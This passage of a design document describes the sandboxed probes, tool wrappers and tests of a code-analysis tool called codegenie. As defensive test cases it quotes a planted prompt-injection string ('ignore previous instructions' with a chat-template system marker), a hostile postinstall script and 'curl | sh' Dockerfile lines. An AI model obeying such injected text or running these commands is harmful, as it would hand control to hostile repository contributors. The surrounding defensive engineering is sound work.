  Probes --> LayerD["Layer D (9 files):<br/>repo_config.py<br/>skills_index.py<br/>adr.py<br/>convention.py<br/>exception.py<br/>policy.py<br/>repo_notes.py<br/>external_docs.py<br/>external_docs_index.py"]
  Probes --> LayerE["Layer E (5 files):<br/>ownership.py (real)<br/>service_topology.py (stub)<br/>service_contract.py (stub)<br/>slo.py (stub)<br/>production_config.py (stub)"]
  Probes --> LayerG["Layer G (6 files):<br/>semgrep.py<br/>ast_grep.py<br/>test_coverage_map.py<br/>invariant_hints.py<br/>grep.py<br/>gitleaks.py"]
  Probes --> ProbeData["probes/_reflection_queries/node.yaml<br/>probes/_generated_code_patterns.yaml"]

  Src --> Tools["tools/ (NEW)<br/>__init__.py<br/>semgrep.py<br/>syft.py<br/>grype.py<br/>gitleaks.py<br/>scip_typescript.py<br/>treesitter.py<br/>docker.py"]

  Src --> Skills["skills/ (NEW)<br/>__init__.py<br/>loader.py<br/>models.py<br/>schema/skill.schema.json"]

  Src --> Catalogs["catalogs/ (P1; expanded)<br/>native_modules.yaml (P1)<br/>ci_providers.yaml (P1)<br/>conventions/node.yaml + _schema.json (NEW)<br/>shell_replacements/node.yaml + _schema.json (NEW)<br/>semgrep_rule_packs.yaml (NEW)<br/>tools/digests.yaml (NEW SHA-256 pins)"]

  Src --> Schema["schema/<br/>(P0/1; 17 new sub-schemas)"]
  Schema --> SchemaB["probes/scip_index.schema.json<br/>probes/index_health.schema.json<br/>probes/node_reflection.schema.json<br/>probes/generated_code.schema.json<br/>probes/build_graph.schema.json"]
  Schema --> SchemaC["probes/dockerfile.schema.json<br/>probes/syft_sbom.schema.json<br/>probes/grype_cve.schema.json<br/>probes/runtime_trace.schema.json<br/>probes/shell_usage.schema.json<br/>probes/certificate.schema.json<br/>probes/entrypoint.schema.json"]
  Schema --> SchemaD["probes/repo_config.schema.json<br/>probes/skills_index.schema.json<br/>probes/adr.schema.json<br/>probes/convention.schema.json<br/>probes/exception.schema.json<br/>probes/policy.schema.json<br/>probes/repo_notes.schema.json<br/>probes/external_docs.schema.json<br/>probes/external_docs_index.schema.json"]
  Schema --> SchemaG["probes/ownership.schema.json<br/>probes/semgrep.schema.json<br/>probes/ast_grep.schema.json<br/>probes/test_coverage_map.schema.json<br/>probes/invariant_hints.schema.json<br/>probes/grep.schema.json<br/>probes/gitleaks.schema.json"]
  Schema --> Envelope["repo_context.schema.json<br/>(P0; cross-probe if/then rule added)"]

  Src --> Exec["exec.py<br/>(P1; ALLOWED_BINARIES +6 — P2; network param — P2)"]
  Src --> San["output_sanitizer.py<br/>(P0; 2 new passes added — P2)"]
  Src --> Audit["audit_writer.py<br/>(P0; rolling BLAKE3 chain head — P2)"]
  Src --> Coord["coordinator/<br/>(P0; one dispatch branch added — P2)"]

  Tests --> TUnit["tests/unit/probes/ (NEW per-probe)<br/>tests/unit/tools/ (NEW per-wrapper)<br/>tests/unit/skills/ (NEW)<br/>tests/unit/sanitizer/ (NEW for passes 4+5)<br/>tests/unit/coordinator/ (extend for peer-output binding)"]
  Tests --> TAdv["tests/adv/ (P0/1; ≥ 40 new fixtures — P2)"]
  Tests --> TInt["tests/integration/ (P1; new tests — P2)<br/>test_phase2_real_oss.py<br/>test_index_health_staleness_seeded.py<br/>test_strict_flag_fails_on_low_confidence.py<br/>test_buildgraph_static_vs_resolved.py<br/>test_phase2_external_docs_disabled_by_default.py<br/>test_phase2_cache_hit_no_subprocess_relaunch.py<br/>test_phase2_end_to_end_node.py"]
  Tests --> TGolden["tests/golden/ (P1; expanded)<br/>one golden per Phase 2 probe"]
  Tests --> TBench["tests/bench/ (P1; expanded — P2)<br/>test_warm_path_phase2.py<br/>test_index_health_budget.py<br/>test_scip_full_reindex.py<br/>test_phase2_cold_e2e.py"]
  Tests --> TFix["tests/fixtures/ (P1; expanded — P2)<br/>node_typescript_with_b_through_g/<br/>stale_scip_repo/<br/>stale_sbom_repo/<br/>stale_semgrep_rulepack_repo/<br/>poisoned_skill_yaml/<br/>repo_notes_prompt_injection/<br/>postinstall_rce_attempt/<br/>tool_outputs/ (recorded fixtures)"]

  Phase2Docs --> ADRs["ADRs/<br/>(12 ADRs — see §New ADRs)"]
  Phase2Docs --> HighLevel["High-level-impl.md<br/>(ordered impl roadmap)"]
  Phase2Docs --> Stories["stories/<br/>(generated by phase-story-writer)"]
```



The `tools/` package is the chokepoint: probes never call `subprocess.run` or parse raw tool stdout. Wrappers are the only code that knows about exit codes, JSON shapes, and `stderr` quirks. Each wrapper exports `async run(...) -> <Tool>Result` returning a typed Pydantic model and routes through `codegenie.exec.run_in_sandbox` (`final-design.md §"Components" #1`).

### Physical view — local POC



**Single Python project.** No services. No databases. Filesystem-backed everything (`localv2.md` invariant, `final-design.md §"Conflict-resolution table" D2`). The only outbound network is `grype db update` (cache-miss only, scoped) and the base-image pull during `SyftSBOMProbe`'s `docker build` (scoped to the configured registry host). All other Phase 2 subprocess invocations run with `--network=none`.

**Phase 5/14 promotion path:** Phase 5 swaps the bwrap branch inside `run_in_sandbox` for a microVM (Firecracker / gVisor / nested QEMU per ADR-0019 resolution); Phase 14 adds the local registry mirror and per-stage MCP server topology. **Neither change touches any probe or any tool wrapper** — the chokepoint is the same (`final-design.md §"Components" #2` tradeoffs).

### Scenarios

Four scenarios that exercise the full architecture together.

#### Scenario A — Warm gather on unchanged repo (p50 ≤ 1.5 s)

The engineer runs `codegenie gather .` for the second time on the same commit. The Coordinator walks `RepoSnapshot`, every probe's `declared_inputs` content hash matches the cached `ProbeOutput`, every probe returns `ProbeExecution.CacheHit`. `IndexHealthProbe` reads the cached peer outputs (still computes its own slice because `cache_strategy = "none"`), runs in ~30 ms (one `git rev-list --count` plus pure-Python aggregation), emits `confidence: high` across all domains. `OutputSanitizer` passes 1–5 are short-circuited (no new findings, no new strings to scan for prompt-injection markers — passes 4+5 only fire on probes that emit raw text/findings fields). YAML is re-written from cached slices. Audit chain head advances by one. Exit 0. The `repo-context.yaml` is byte-identical to the previous run modulo the chain-head field (`final-design.md §"Data flow"` warm-path).

#### Scenario B — Cold gather on fresh Node TS repo (p50 ≤ 90 s)

The engineer clones `nestjs/nest` at a pinned SHA. CI runs `npm ci --ignore-scripts` outside the gather (under its own sandbox, in CI setup) to produce a `node_modules` tree that `scip-typescript` can resolve — the probe itself never invokes `npm install` (Risk #3 in `final-design.md`). Then `codegenie gather` runs. Wave 1 (LD) → Wave 2 (Layer A, all miss) → Wave 3 (Layer B, all miss; SCIP indexer ~25 s dominates) → Wave 4 (Layer C — `DockerfileProbe` parses Dockerfile, `SyftSBOMProbe` does `docker build` + `syft` ~30 s, `GrypeCVEProbe` ~5 s; `ShellUsageProbe`, `CertificateProbe`, `EntrypointProbe` synthesize from C1 + catalogs) → Wave 5 (Layer G — semgrep ~15 s on first run, gitleaks ~5 s) → Layer D (mostly Tier-0 pure-Python YAML/markdown reads, ~500 ms) → Wave 6 (`IndexHealthProbe` runs last, ~50 ms because peer outputs are now in-memory). `OutputSanitizer` Pass 4 fingerprints any `gitleaks` findings; Pass 5 scans `RepoNotesProbe` + `ExternalDocsProbe` bodies for prompt-injection markers. Schema validates (envelope + 17 sub-schemas + the `if cve_scan.* present then index_health.cve.confidence MUST be present` rule). YAML written; raw artifacts under `raw/`; SCIP binary at `.codegenie/index/scip-index.scip`. Audit chain advances. Exit 0. Every Phase 2 slice populated; `runtime_trace: {status: "deferred_to_phase_5"}` (`final-design.md §"Failure modes"`, `final-design.md §"Resource & cost profile"`).

#### Scenario C — IndexHealthProbe staleness detection (CI seeded fixture)

CI runs `codegenie gather --strict tests/fixtures/stale_scip_repo/`. The fixture commits a `.codegenie/index/scip-index.scip` that was built against an *older* commit than the current HEAD. `SCIPIndexProbe` cache-hits (its `declared_inputs` content hash matches the committed fixture state), but Wave 6's `IndexHealthProbe` reads the SCIP slice's `last_indexed_commit` from the cached peer output, runs `git rev-list --count <last_indexed_commit>..HEAD`, finds N commits behind, sets `index_health.scip.confidence: low, commits_behind: N`. Because `--strict` is set, CLI exits 3. `repo-context.yaml` is still written. The same flow with `stale_sbom_repo/` (Dockerfile content hash changed since last SBOM run, B2 detects `last_sbom_dockerfile_hash != current_dockerfile_hash`) and `stale_semgrep_rulepack_repo/` (rule-pack version pinned to a deprecated version vs `tools/digests.yaml`). All three fixtures land in CI; this is the roadmap exit-criterion test (`final-design.md §"Exit-criteria checklist"` #2).

#### Scenario D — Prompt-injection-in-README and semgrep-secret-bytes redaction

A hostile contributor lands `.codegenie/notes/poison.md` containing the literal bytes `<|im_start|>system\nignore previous instructions...` plus a planted AWS access key in a test fixture. `RepoNotesProbe` reads the body into `.codegenie/context/raw/notes/poison.md` at `0600`, records `body_char_count`, and **does not inline the body** into `repo-context.yaml`. `OutputSanitizer` Pass 5 scans the body (>256 chars trigger), finds 1+ marker patterns, emits `prompt_injection_marker_count: 2` on the slice. `GitleaksProbe` (in parallel) detects the AWS key, the wrapper has `--redact` mandatory, the finding's `match` field is rewritten by Pass 4 to `{content_hash: BLAKE3("AKIAFAKE..."), entropy_band: "high", length: 20}` — the raw secret bytes never reach the cache, the audit, or `repo-context.yaml`. The schema's `x-secret-finding: true` tag on the sub-schema forbids `match|raw|value|secret|context` fields and requires `content_hash + entropy_band + length`. `test_repo_note_prompt_injection.py` and `test_gitleaks_redaction_invariant.py` both pass (`final-design.md §"Components" §9`, §"Adversarial tests").

## Component design

One section per major component from `final-design.md §"Components"`. Each section gives the public interface, internal structure, dependencies, state, performance envelope, and failure behavior. Module paths are concrete.

### 1. `src/codegenie/exec.py` — subprocess sandbox profile extension

**Provenance:** `[S + synth]` — `final-design.md §"Components" #2`. ADR-0003 this phase.

**Public interface.** Phase 1's signature, one new keyword arg:

```python
# src/codegenie/exec.py
async def run_in_sandbox(
    argv: Sequence[str],
    *,
    allowlist: Sequence[str],      # ALLOWED_BINARIES filter (Phase 0)
    env: Mapping[str, str],         # caller-provided env; stripped by sandbox
    timeout_s: float,
    cwd: Path,
    network: Literal["none", "scoped"] = "none",  # NEW Phase 2
    scoped_egress_hosts: Sequence[str] = (),       # NEW; only if network="scoped"
    ro_bind: Sequence[Path] = (),                  # NEW; extra read-only mounts
) -> ProcessResult: ...
```

`ALLOWED_BINARIES` extends from `{"git", "node"}` (Phase 1) to `{"git", "node", "scip-typescript", "semgrep", "syft", "grype", "gitleaks", "docker"}`. Each new entry is ADR-gated (ADR-0005 this phase, one combined ADR with per-binary subsections — synthesis choice for review burden).

**Internal structure.**

- Linux path: `bwrap --unshare-all --ro-bind <repo-root> /repo --ro-bind <tools-bin-dir> /usr/local/bin --tmpfs /tmp --die-with-parent --unsetenv <every credential-shaped name>` plus `--unshare-net` when `network="none"` (default); `--share-net` plus a per-tool egress-host allowlist when `network="scoped"` (allowlist enforcement is by `--setenv NO_PROXY=*` + per-tool config + the tool's own egress confinement; we do not implement an egress firewall in Phase 2).
- macOS path: `sandbox-exec` with an equivalent profile; `--network=none` is best-effort via `(deny network*)` — **documented limitation**, observable at startup banner. Credential env-strip is enforced unconditionally.
- Credential strip list (Phase 1 + Phase 2 additions): `SSH_AUTH_SOCK`, `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN`, `AWS_REGION`, `GITHUB_TOKEN`, `OPENAI_API_KEY`, `ANTHROPIC_API_KEY`, `CHAINGUARD_TOKEN`, plus a regex-based stripper for any var matching `(?i).*(token|secret|password|key|api_key).*`.

**Dependencies.** Linux: `bwrap`. macOS: stdlib `sandbox-exec`. Pure Python wrapper, no new pip deps.

**State.** None across invocations. The sandbox is per-subprocess.

**Performance envelope.** Sandbox boot overhead: ~50 ms p50 on Linux, ~80 ms p50 on macOS (sandbox-exec). Phase 2 has 6 sandboxed wrapper invocations on a cold gather (scip-typescript, syft via docker build, grype, semgrep, gitleaks, pnpm) → ~300 ms p50 of pure sandbox overhead per cold gather. Acceptable; surfaced in the bench dashboard.

**Failure behavior.** `bwrap` / `sandbox-exec` exit non-zero → wrapper raises `SandboxLaunchError`; probe catches → `ProbeOutput(confidence="low", errors=["sandbox_launch_failed"])`. Process timeout → coordinator-level kill at `1.5 × timeout_s` (Phase 0 behavior).

**Why this choice over alternatives.** `[S]`'s `RootlessPodmanContainer` + `SandboxStrategy` interface forward-declares ADR-0019 architecture; rejected per `final-design.md §"Conflict-resolution table" D2`. Phase 5's microVM lands at the *same* signature with a new conditional branch (`network: Literal["none", "scoped", "microvm"]`) — no probe-code change required.

### 2. `src/codegenie/tools/` — CLI wrappers package

**Provenance:** `[B]` — `final-design.md §"Components" #1`.

**Public interface.** One module per external CLI; each exports `async run(...) -> <Tool>Result`. Inputs include the analyzed repo root, tool-specific options, a `timeout_s` ceiling, and a `raw_output_path` the wrapper writes to *before* parsing. Outputs are Pydantic models with field naming matching Phase 1's probe outputs.

```python
# src/codegenie/tools/semgrep.py
class SemgrepResult(BaseModel):
    model_config = ConfigDict(extra="forbid")
    findings: list[SemgrepFinding]
    errors: list[str]
    rule_pack_versions: dict[str, str]
    wall_clock_ms: int

async def run(
    repo_root: Path,
    *,
    rule_packs: Sequence[str],
    timeout_s: float,
    raw_output_path: Path,
    paranoid: bool = False,  # opt-in cross-file taint mode
) -> SemgrepResult: ...
```

**Typed exceptions** (every wrapper):

- `ToolNotFound` — binary missing on `$PATH`.
- `ToolTimeout` — wrapper-level enforcement; carries the `timeout_s` budget.
- `ToolNonZeroExit` — carries `returncode`, truncated `stderr` (1 KB).
- `ToolOutputMalformed` — Pydantic validation failed against the typed result; carries first malformed-field path.

**Internal structure.** Each wrapper:

1. Calls `codegenie.exec.run_in_sandbox(...)` — never `subprocess.run` directly.
2. Writes raw output JSON to `raw_output_path` *before* parsing (so the raw artifact survives even if parse crashes).
3. Calls `pydantic.TypeAdapter(<Result>).validate_json(...)` to produce the typed result.
4. Raises typed exceptions on any failure path.

**Seven modules + one extra:**

- `semgrep.py` — `semgrep scan --config <rule_packs> --json --quiet --disable-version-check --disable-metrics --time --no-rewrite-rule-ids`
- `syft.py` — `syft <image-digest> -o json` (consumes image digest from `docker.py`'s build output)
- `grype.py` — `grype sbom:<path> -o json --quiet` with `db check / update` lifecycle
- `gitleaks.py` — `gitleaks detect --no-banner --redact --no-git -f json -s <path>` (mandatory `--redact`; wrapper raises on missing flag)
- `scip_typescript.py` — `scip-typescript index --output <path>`; parent re-validates SCIP grammar before returning
- `treesitter.py` — Python `tree-sitter` bindings in-process (no subprocess); pre-compiled grammars from `tree-sitter-typescript` / `tree-sitter-javascript`
- `docker.py` — `docker build --quiet -t codegenie/<repo_hash>:<gather_id> .` inside sandbox; returns image digest

**Dependencies.** External binaries on `$PATH` (SHA-256-verified at install per `tools/digests.yaml`). Python: `pydantic`, `tree-sitter`, `tree-sitter-typescript`, `tree-sitter-javascript` (C extensions, pinned by wheel hash). `markdown-it-py` (pure Python, for `ExternalDocsProbe`).

**State.** None across invocations. Per-call temp dirs under `tmpfs /tmp` inside sandbox.

**Performance envelope.** Fork+exec cost (~200–300 ms per tool invocation) is paid every gather — the `DaemonPool` amortization from `[P]` is rejected; per-probe caching and per-file findings sub-caches recover most of the cost on warm/incremental paths (`final-design.md §"Components" #1` tradeoffs).

**Failure behavior.** Typed exceptions caught at probe boundary; surfaced as `ProbeOutput(confidence="low", errors=[...])`.

### 3. `src/codegenie/skills/` — Skills loader package

**Provenance:** `[B + synth + S]` — `final-design.md §"Components" §5.1`.

**Public interface.**

```python
# src/codegenie/skills/loader.py
def discover_skills(roots: Sequence[Path]) -> SkillIndex:
    """Roots passed explicitly; no ~/ expansion inside loader.
    CLI resolves ~, env vars BEFORE calling."""

# src/codegenie/skills/models.py
class Skill(BaseModel):
    model_config = ConfigDict(extra="forbid")
    name: str
    version: str
    applies_to: SkillApplies
    required_tools: list[str]                 # cross-checked vs tools/digests.yaml
    body_path: Path
    body_char_count: int                       # from os.stat; body NEVER loaded
    applicability: Literal["available", "degraded", "unavailable"]

class SkillApplies(BaseModel):
    model_config = ConfigDict(extra="forbid")
    task_types: list[str]
    languages: list[str]
    conditions: list[dict]                     # structured conditions

class SkillIndex(BaseModel):
    skills: list[Skill]
    by_task_and_language: dict[tuple[str, str], list[str]]  # pre-indexed lookup
```

**Internal structure.**

- **YAML frontmatter loaded via** Phase 1's `safe_yaml.load` (5 MB cap, depth 64 cap).
- **Frontmatter validated** against `src/codegenie/skills/schema/skill.schema.json` (Draft 2020-12, `additionalProperties: false` at root).
- **Body never loaded.** Only `body_char_count = os.stat(body_path).st_size - frontmatter_byte_size`.
- **`required_tools` cross-referenced** against `tools/digests.yaml`. A skill declaring a tool the project hasn't pinned is recorded with `applicability: degraded`.
- **Symlinks not followed** — Phase 1's `O_NOFOLLOW` open precedent.
- **Hard fail at CLI startup** on malformed YAML or schema violation (`SkillLoadError`; CLI exits 2).

**Dependencies.** Phase 1's `parsers/safe_yaml.py`, `pydantic`, `jsonschema`. No subprocess.

**State.** Loaded once at CLI startup; immutable `SkillIndex` exposed to `SkillsIndexProbe`.

**Performance envelope.** ~50 ms for a directory of 20 skills (YAML frontmatter parse + stat). One-shot at startup.

**Failure behavior.** Malformed YAML / schema violation → loud failure at CLI startup. Missing root directory → empty `SkillIndex` (not a failure). Symlink in skills dir → skipped with warning.

### 4. `src/codegenie/catalogs/conventions/` — Conventions catalog + closed-enum CI lint

**Provenance:** `[B + synth on enum policy]` — `final-design.md §"Components" §5.3` + §13. ADR-0008 this phase.

**Public interface.** YAML files at `src/codegenie/catalogs/conventions/<language>.yaml` matching `_schema.json`. The schema declares a **closed enum** on `detect.type`:

```yaml
# src/codegenie/catalogs/conventions/_schema.json (abridged)
{
  "$schema": "https://json-schema.org/draft/2020-12/schema",
  "additionalProperties": false,
  "properties": {
    "catalog_version": { "type": "integer" },
    "conventions": {
      "type": "array",
      "items": {
        "additionalProperties": false,
        "properties": {
          "id": { "pattern": "^[a-z][a-z0-9_]*\\.[a-z][a-z0-9_]*$" },
          "detect": {
            "additionalProperties": false,
            "properties": {
              "type": {
                "enum": ["file_present", "package_dep", "regex_in_file", "tsconfig_field", "dockerfile_directive"]
              }
            }
          }
        }
      }
    }
  }
}
```

**Internal structure.** `ConventionProbe` (`src/codegenie/probes/convention.py`) dispatches over `detect.type` via a `match/case` statement. **CI lint** (new tool in `scripts/check_conventions_catalog_parity.py`): walks every `_apply_detector` function and asserts the set of `match/case` branches **equals** the schema's `detect.type.enum` set. Asymmetry → CI fails. Phase 7's distroless `detect.type` additions must update both files in the same PR; the lint enforces this.

**Dependencies.** Phase 1 catalog loader pattern; `jsonschema`; one new CI script.

**Performance envelope.** Catalog load: ~5 ms at module import (`yaml.CSafeLoader` via `safe_yaml.load`). Lint script: < 100 ms; runs in the `fence` CI job.

**Failure behavior.** Malformed catalog → hard fail at CLI startup. Lint mismatch → CI red.

### 5. `IndexHealthProbe` (B2) — the honesty oracle

**Provenance:** `[B shape + S framing + synth on budget and failure mode]` — `final-design.md §"Components" §3.2`.

**Public interface.** Probe ABC with `consumes_peer_outputs = True`:

```python
# src/codegenie/probes/index_health.py
class IndexHealthProbe(Probe):
    name = "index_health"
    declared_inputs = ["__git__:HEAD"]   # special token: invalidate on HEAD move
    applies_to_tasks = ["*"]
    applies_to_languages = ["*"]
    requires = [
      "scip_index", "syft_sbom", "grype_cve", "semgrep",
      "gitleaks", "runtime_trace",
    ]
    cache_strategy = "none"               # always re-runs
    consumes_peer_outputs = True
    timeout_seconds = 30                  # advisory; 200 ms target; no hard kill

    async def run(
        self,
        snapshot: RepoSnapshot,
        ctx: ProbeContext,
        peer_outputs: Mapping[str, ProbeOutput],  # frozen snapshot
    ) -> ProbeOutput: ...
```

**Internal structure.**

- **Per-domain rollup** for `scip`, `sbom`, `cve`, `semgrep`, `gitleaks`, `runtime_trace`. Each domain produces `{last_indexed_commit, commits_behind, coverage_pct, indexer_errors, tool_digest_in_use, confidence}`.
- **Single subprocess call:** `git rev-list --count <last_indexed_commit>..HEAD` — Phase 0 already allowlists `git`. All other work is pure-Python aggregation over `peer_outputs`.
- **`runtime_trace` domain:** `{status: "not_applicable", reason: "C4 deferred to Phase 5"}` (NOT `not_run` — addresses critic cross-design blind spot #2).
- **Budget:** advisory 200 ms; on overrun, emit `index_health.budget_exceeded: true` in the slice; gather continues.
- **Failure-mode policy:** never fails the gather. `--strict` CLI flag is the supported way to fail loud (any domain `low` → CLI exits 3).

**Cross-probe schema dependency:** envelope schema includes Draft 2020-12 `if/then`:

```json
{
  "if":   { "properties": { "probes": { "required": ["cve_scan"] } } },
  "then": { "properties": { "probes": { "properties": { "index_health": {
            "properties": { "cve": { "required": ["confidence"] } }
          }}}}}
}
```

Enforced at envelope write time. Any consumer reading the YAML can rely on the rule.

**Dependencies.** `git` binary (Phase 0). No other subprocess. Reads `tools/digests.yaml` for tool-version checks.

**Performance envelope.** Advisory 200 ms target; ~50 ms p50 in practice (one `git rev-list --count` + Python aggregation).

**Failure behavior.** Any peer probe's `confidence: low` → that domain's `confidence: low`. Missing peer probe (`requires` not satisfied because the upstream failed) → `status: "failed_upstream"`, `confidence: low`. **Never fails the gather.** `--strict` flag in CI maps the slice's lows to exit code 3.

### 6. `BuildGraphProbe` (B5) — two-stage with `--ignore-scripts`

**Provenance:** `[synth]` — `final-design.md §"Components" §3.5`. ADR-0007 this phase.

**Public interface.**

```python
class BuildGraphProbe(Probe):
    name = "build_graph"
    declared_inputs = [
      "pnpm-workspace.yaml", "package.json",
      "packages/*/package.json", "apps/*/package.json", "libs/*/package.json",
      "lerna.json", "nx.json", "turbo.json",
      "pnpm-lock.yaml", "yarn.lock", "package-lock.json",
    ]
    requires = ["language_detection", "node_build_system"]
    applies_to_languages = ["typescript", "javascript"]
    timeout_seconds = 60

    def applies(self, snapshot: RepoSnapshot) -> bool:
        return snapshot.detected_languages.monorepo  # Phase 1 flag
```

**Internal structure — two stages:**

1. **Static parse** of workspace manifests via Phase 1's `ParsedManifestMemo`. Always runs. Produces a "declared" edge set.
2. **Resolved parse** via the package manager — only if `pnpm` / `yarn` / `npm` is on `$PATH` and the repo is a monorepo. Calls `pnpm list -r --depth -1 --json --ignore-scripts` (or `yarn workspaces list --json --no-default-rc` or `npm ls --json --workspaces`). **`--ignore-scripts` is mandatory:** the wrapper enforces it; `test_buildgraph_postinstall_blocked.py` (adversarial test) plants `scripts.postinstall: "touch /tmp/POWNED"` in a fixture `package.json` and asserts `/tmp/POWNED` does not exist after the probe runs.

**Output records both:** the declared graph and the resolved graph, plus `resolution_status: {static_only | resolved | resolved_with_discrepancy}`. Static-only means the resolved graph is absent; that's evidence, not a fabricated graph (closes critic §S.1 "judgment dressed as evidence").

**Dependencies.** `pnpm` / `yarn` / `npm` binary on `$PATH` (optional); Phase 1's `ParsedManifestMemo`.

**Performance envelope.** ~2–5 s of `pnpm list` per cold gather on a 100-package monorepo. Cached on `pnpm-lock.yaml + workspace manifest hash`.

**Failure behavior.** Package manager missing → static-only; `confidence: medium`; structured warning. `pnpm list` non-zero → `resolution_status: static_only`; `confidence: medium`. `pnpm list` runs but lists differ from static → `resolution_status: resolved_with_discrepancy`; both graphs recorded.

### 7. `SCIPIndexProbe` (B1) — conditional `node_modules` mount

**Provenance:** `[B + S threat model + synth on node_modules policy]` — `final-design.md §"Components" §3.1`.

**Public interface.**

```python
class SCIPIndexProbe(Probe):
    name = "scip_index"
    declared_inputs = [
      "tsconfig*.json", "package.json",
      "src/**/*.{ts,tsx,mts,cts,js,mjs,cjs}",
      "pnpm-lock.yaml", "yarn.lock", "package-lock.json",
    ]
    requires = ["language_detection", "node_build_system"]
    applies_to_languages = ["typescript", "javascript"]
    timeout_seconds = 600
```

**Internal structure.**

- Calls `tools.scip_typescript.run(repo_root, raw_output_path=<repo>/.codegenie/index/scip-index.scip, timeout_s=600)`.
- **`node_modules` policy:** if `node_modules/` exists in the repo at gather time, mount read-only into the sandbox; `scip-typescript` resolves imports against it. If absent, **does not invoke `npm install`**; walks lockfiles and reports `node_modules_present: false, lockfiles_resolved: true, coverage_pct: <reduced>, confidence: medium`.
- **Cache key includes `scip-typescript` digest** from `tools/digests.yaml`.
- **SCIP binary artifact** written to `.codegenie/index/scip-index.scip` (per-repo binary; not a per-probe cache blob — its lifecycle is per-repo, not per-gather; `cache gc` extended; manual `cache prune-index`).
- **Grammar re-validation:** parent re-parses `.scip` against the SCIP protobuf grammar before merging the slice (cheap; protobuf parser is well-fuzzed).

**Dependencies.** `scip-typescript` binary (SHA-256 verified); Phase 1 `run_in_sandbox`.

**Performance envelope.** ~25 s on 1k-file fixture (cold; full re-index on every TS-source change — no incremental). ~200 MB peak resident.

**Failure behavior.** `scip-typescript` not on `$PATH` → `ToolNotFound`; probe `confidence: low`. Non-zero exit → `confidence: low` with truncated stderr. SCIP file fails grammar re-validation → `confidence: low` + cache entry not stored. Timeout → coordinator kill at 1.5× 600s = 900 s.

### 8. `SyftSBOMProbe` (C2)

**Provenance:** `[P + S + synth]` — `final-design.md §"Components" §4.2`.

**Public interface.**

```python
class SyftSBOMProbe(Probe):
    name = "syft_sbom"
    declared_inputs = [
      "Dockerfile", "Dockerfile.*", ".dockerignore",
      "package.json", "pnpm-lock.yaml", "yarn.lock", "package-lock.json",
    ]
    requires = ["dockerfile"]
    applies_to_languages = ["*"]
    timeout_seconds = 300
```

**Internal structure.**

- **Cache key:** `(dockerfile_hash, dockerignore_hash, lockfile_hash, base_image_digest_at_registry, syft_digest, probe_version, schema_version)`. Base-image digest resolved via a single `docker manifest inspect` call; LRU-cached for 1 hour per `base_image_ref` in the wrapper.
- **On cache miss:** `docker build --quiet -t codegenie/<repo_hash>:<gather_id> .` inside sandbox; build steps run with `--network=none`; only the initial base-image pull uses `network="scoped"` allowlisted to the configured registry host. Then `syft <image-digest> -o json` against the produced image.
- **Hostile Dockerfile handling:** `RUN curl ... | sh` lines fail inside the sandbox (no network during build). Probe records `build_status: failed, network_egress_attempted: true, confidence: low`. **This is honest evidence**, not a bug.
- **On cache hit:** skip build + scan; reuse SBOM JSON.

**Dependencies.** `docker` / `buildx` binary; `syft` binary; `dockerfile` Python library (pure-Python parser).

**Performance envelope.** ~30 s on cold path (docker build + syft scan). LRU-cached base-image digest lookup amortizes most of the registry round-trip.

**Failure behavior.** Build failure → `build_status: failed`, `confidence: low`, SBOM absent. Syft exit non-zero → `confidence: low`. Sandbox network leak → `network_egress_attempted: true` (observable; CI canary).

### 9. `GrypeCVEProbe` (C3)

**Provenance:** `[P + S]` — `final-design.md §"Components" §4.3`.

**Public interface.**

```python
class GrypeCVEProbe(Probe):
    name = "grype_cve"
    declared_inputs = []                      # consumes peer output: syft_sbom
    requires = ["syft_sbom"]
    timeout_seconds = 120
```

**Internal structure.**

- Invokes `grype sbom:<path-to-sbom-json> -o json --quiet` inside sandbox.
- **Vuln DB lifecycle:** `grype db check` at start; if DB older than 24h, `grype db update` runs with `network="scoped"` allowlisted to the grype DB host. DB integrity verified against `tools/grype-db-listing.signed.json` pin.
- **Trivy cross-check** is opt-in only (`--paranoid` flag); default runs grype-only.
- **Cache key:** `(sbom_content_hash, grype_db_version, grype_digest, probe_version, schema_version)`.

**Dependencies.** `grype` binary; `tools/grype-db-listing.signed.json` pin.

**Performance envelope.** ~5 s on cold path with fresh DB; ~15 s if DB needs update.

**Failure behavior.** DB update failed → `confidence: low` with structured warning; CVE scan still runs against the stale DB. Grype exit non-zero → `confidence: low`.

### 10. `RuntimeTraceProbe` (C4) — class + sub-schema only

**Provenance:** `[synth]` — `final-design.md §"Components" §4.4`. ADR-0002 this phase.

**Public interface.**

```python
class RuntimeTraceProbe(Probe):
    name = "runtime_trace"
    declared_inputs = []
    requires = []
    applies_to_tasks = ["*"]
    applies_to_languages = ["*"]
    timeout_seconds = 0  # never runs in Phase 2

    def applies(self, snapshot: RepoSnapshot) -> bool:
        return False  # Phase 2: deferred to Phase 5
```

**Internal structure.** None in Phase 2. The probe class exists; the sub-schema declares `runtime_trace: {status: "deferred_to_phase_5", reason: "C4 requires sandbox stack ADR-0019 resolution"}`.

**Dependencies.** None in Phase 2.

**Performance envelope.** Zero — never runs.

**Failure behavior.** N/A. `IndexHealthProbe`'s `runtime_trace` domain reads `status: "not_applicable"` (not `not_run`) — addresses critic cross-design blind spot #2.

### 11. `ShellUsageProbe` (C5), `CertificateProbe` (C6), `EntrypointProbe` (C7)

**Provenance:** `[B + S]` — `final-design.md §"Components" §4.5`.

**Public interface.** Standard probes; `sandbox: network="none"`; consume `dockerfile` probe output + Phase 2 catalogs (`shell_replacements/node.yaml`, etc.) + Helm values + `package.json#engines`.

**Internal structure.** All three synthesize static evidence:

- `ShellUsageProbe`: walks Dockerfile `RUN` directives + checks `shell_replacements/node.yaml` catalog for replacement candidates.
- `CertificateProbe`: walks Dockerfile for `COPY ... *.crt` / `ADD ... *.pem` + checks `apt-get install ca-certificates`.
- `EntrypointProbe`: extracts `ENTRYPOINT` / `CMD` from `DockerfileProbe`; classifies form (exec vs shell).

**They do NOT consume C4 output** (deferred). Each declares `runtime_trace_pending: true` in its own slice where static evidence is incomplete without runtime confirmation.

**Dependencies.** Phase 2 catalogs; `DockerfileProbe` peer output (consumed via the normal `requires` mechanism, not `consumes_peer_outputs` — these don't need a frozen snapshot since they're plain dependents).

**Performance envelope.** < 100 ms each (pure-Python, no subprocess).

**Failure behavior.** Missing Dockerfile peer → probe `confidence: low` with structured warning; gather continues.

### 12. `DockerfileProbe` (C1)

**Provenance:** `[B + S]` — `final-design.md §"Components" §4.1`.

**Public interface.**

```python
class DockerfileProbe(Probe):
    name = "dockerfile"
    declared_inputs = ["Dockerfile", "Dockerfile.*", ".dockerignore"]
    requires = []
    applies_to_languages = ["*"]
    timeout_seconds = 15
```

